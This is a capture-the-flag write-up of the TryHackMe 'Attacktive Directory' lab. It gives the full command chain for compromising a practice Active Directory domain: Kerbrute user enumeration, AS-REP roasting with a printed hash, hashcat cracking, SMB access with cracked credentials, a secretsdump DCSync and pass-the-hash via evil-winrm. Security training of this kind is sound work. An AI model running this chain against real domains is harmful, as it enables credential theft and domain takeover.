








<div align="center">


# Attacktive Directory

**Difficulty:** Medium
**Category:** AD, Kerberos

</div>

---


```bash
nmap -sV -sC 10.80.135.228 -oN attacktive-nmap.txt
```

From the nmap scan we get a lot of results:


* 53 **DNS**
* 80 **HTTP**
* 88 **KERBEROS**
* 135 **MsRPC**
* 139 **Netbios-ssn** (smb)
* 389 **LDAP** 
* 445 **SMB**
* 464 **kpasswd** (Kerberos password change)
* 593 **RPC over HTTP**
* 636 **LDAPS** (LDAP over SSL)
* 3268 **LDAP** (Global Catalog LDAP)
* 3389 **RDP**
	* commonName=`AttacktiveDirectory.spookysec.local
	* Target_Name: `THM-AD`
	* NetBIOS_Computer_Name: `ATTACKTIVEDIREC`
	* DNS_DOMAIN_NAME: `spookysec.local`
* 5985 **WinRM** (Windows Remote Management)


I will start with using `enum4linux` which is a tool for enumerating AD environments:

```bash
enum4linux 10.80.135.228
```

### What tool will allow us to enumerate port 139/445?

This would be `smbclient`? But also `enum4linux`.

### What is the NetBIOS-Domain Name of the machine?
This is gotten from the nmap scan: `THM-AD`.

### What invalid TLD do people commonly use for their Active Directory Domain?

`TLD` - Top Level Domain

`.local` is found here.

### What command within Kerbrute will allow us to enumerate valid usernames?

I have to download Kerbrute to enumerate users.

**Background:** 
* Written in Go
* Kerbrute is stealthy since pre-authentication failures do not trigger the "traditional" `An account failed to log on` event 4625. With Kerberos, we can validate a username or test a login by only sending one UDP frame to the KDC (Domain Controller). 
	* This is cool!

Kerbrute has three commands:
* `bruteuser` - Bruteforce a single user's password from a wordlist
* `bruteforce` - Read username:password combos from a file or stdin and test them
* `passwordspray` - Test a single password against a list of users
* `userenum` - Enumerate valid domain usernames via Kerberos

It is `userenum` we are going to use. 
* To enumerate usernames, Kerberos sends TGT (Ticket Granting Ticket) requests with no pre-authentication. If the KDC (Domain Controller) responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failuers so it will not lock out any accounts! But it does generate a Windows event ID 4768 (`A Kerberos authentication ticket (TGT) was requested`) if Kerberos logging is enabled.

It does not lock user accounts, but can be logged with event ID 4768, if Kerberos logging is enabled.

### What notable account is discovered? (These should jump out at you)

I get two lists: 
* userlist.txt
* passlist.txt

```bash
./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local userlist.txt
```

I added a line for `spookysec.local` in my `/etc/hosts`.



```
2026/07/27 07:33:03 >  [+] svc-admin has no pre auth required. Dumping hash to crack offline:

$krb5asrep$18$svc-admin@SPOOKYSEC.LOCAL:fd858a6802833947c852e40ac8a80753$df05b4a9bd85f8ee54fd24fbe69c9c57f3db434d8fff2f31a71fe604776f2fe9ffdb2ff194ddfa61dd462381e8b3dc356a76243d13b4b3b51de0c175315753ca403fda78268cbb248a3b95cdce5d63dd083161ab296b4bcb5e2368735f606346137e732b359fdd0fd72603f7c6bffe62befd6bedeed6ac5d26642b43b3d6277515baf7103156e84f575f17c31bda8a9b68d5a076e1e8ed0b8d83d009e33611eabc3f21bc9229cc4b09870d49a4e65e8b746115e41f98848cd00b8062358a71fcf3f312b138bdc62aefaf4e2c73196301a3412f9e7630c69196957f02c531e27489512dd1c3314a5cd7c2e3fa941885478c234c810e3228650673e6da14db8b058c544a6626dc
```

It looks like the user `svc-admin` does not have `preauth` enabled, which means we can get the hash for that user.

The two notable accounts are: `svc-admin` and `backup`.

### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

This would be `svc-admin` from the previous question.

I make a wordlist with all valid users and use `impacket-GetNPUsers`. (No Preauth Users)

We will abuse a feature within Kerberos with an attack method called **ASREPRoasting**. ASREPRoasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account. 

#### Retrieving Kerberos Tickets
Impacket has a tool called "GetNPUsers" that will allow us to query ASReproastable accounts from the Key Distribution Center (KDC). The only thing that is necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```bash
impacket-GetNPUsers -dc-ip spookysec.local -usersfile valid_users.txt spookysec.local/
```



We get (as expected) that the user `svc-admin` has `UF_DONT_REQUIRE_PREAUTH` set.

### Looking at the Hashcat Examples wiki page, what type of Kerberos hash d we retrieve from the KDC? (Specify the full name)

On the page https://hashcat.net/wiki/doku.php?id=example_hashes I search for `$krb` and find one that matches the first "column": `$krb5asrep$23`.



`Kerberos 5, etype 23, AS-REP`.

### What mode is the hash?

Hashcat mode `18200`


### Now crack the hash with the modified password list provided, what is the user accounts password?

```bash
hashcat -m 18200 svc-admin.hash passlist.txt
```



### What utility can we use to map remote SMB shares?

```bash
smbclient -L 10.80.135.228 -U spookysec.local/svc-admin%management2005
```



**Which option will list shares?** `-L`
**How many remote shares is the server listing?** `6`
**There is one particular share that we have access to that contains a text file. Which share is it?** `backup`.

```bash
smbclient //10.80.135.228/backup -U spookysec.local/svc-admin%management2005
```



```bash
backup@spookysec.local:backup2517860 
# base64 encoded
``` 

### What method allowed us to dump NTDS.DIT?


```bash
impacket-secretsdump spookysec.local/backup:backup2517860@10.80.135.228
```

**Background:**
* Secretsdump can be used in multiple ways, either by having access to an account that has permissions to perform a `DCSync Attack`. DCSync means that the account tells the existing DC (Domain Controller) that they too are a trusted DC. The real DC will then use the `Directory Replication Service Remote (MS-DRSR)` protocol to send sensitive data.
* We can also perform a secretsdump by supplying the `SAM` and `SYSTEM` files. 
	* `SAM (Security Account Manager), (C:\Windows\System32\config\SAM)` - stores local user account password hashes (NTLM). It's encrypted with a boot key.
	* `SYSTEM (C:\Windows\System32\config\SYSTEM)` - stores system configuration, including the **boot key (SYSKEY)** needed to decrypt the `SAM`.

You need both because the SAM is encrypted at rest - the SYSTEM hive contains the key to unlock it.


By using the method `DRSUAPI (Domain Replication Service (DRS) Remote Protocol API)` we tell the DC we are another DC and by so gain all the domain hashes.

From the output of secretsdump:



`DRSUAPI`

**What is the Administrators NTLM hash?** `<REDACTED>`

```bash
netexec winrm 10.80.135.228 -u 'Administrator' --hash <REDACTED>
```



Thats what I was looking for!

**What method of attack could allow us to authenticate as the user without the password?** 
`Pass the hash`

**Using a tool called Evil-WinRM what options will allow us to use a hash?**
`-H`.

```bash
evil-winrm -u Administrator -H <REDACTED> -i 10.80.135.228
```


```powershell
type C:\Users\Administrator\Desktop\root.txt
TryHackMe{<REDACTED>}

type C:\Users\backup\Desktop\PrivEsc.txt
TryHackMe{<REDACTED>}

type C:\Users\svc-admin\Desktop\user.txt.txt
TryHackMe{<REDACTED>}
```
